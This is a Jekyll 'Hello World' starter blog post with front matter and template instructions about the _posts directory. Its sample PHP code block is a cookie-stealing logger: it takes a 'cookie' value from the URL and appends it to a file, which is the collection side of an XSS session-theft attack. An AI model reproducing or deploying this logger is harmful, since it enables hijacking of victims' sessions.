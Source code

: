 ```yaml
---
layout: post
title: "Hello World"
modified:
categories: blog
date: 2014-08-08T15:39:55-04:00
modified: 2016-06-01T14:19:19-04:00
tags: [tag3]
author: Dude Android
---
```


You'll find this post in your `_posts` directory - edit this post and re-build (or run with the `-w` switch) to see your changes!
To add new posts, simply add a file in the `_posts` directory that follows the convention: YYYY-MM-DD-name-of-post.ext.

## Hello Github

### Sample Heading 2

Jekyll also offers powerful support for code snippets:

```php
<?php
$cookie = $HTTP_GET_VARS[“cookie”];
$steal = fopen(“cookiefile.txt”, “a”);
fwrite($steal, $cookie .”\n”);
fclose($steal);
?>
```

Check out the [Jekyll docs][jekyll] for more info on how to get the most out of Jekyll. File all bugs/feature requests at [Jekyll's GitHub repo][jekyll-gh].

[jekyll-gh]: https://github.com/jekyll/jekyll
[jekyll]:    http://jekyllrb.com
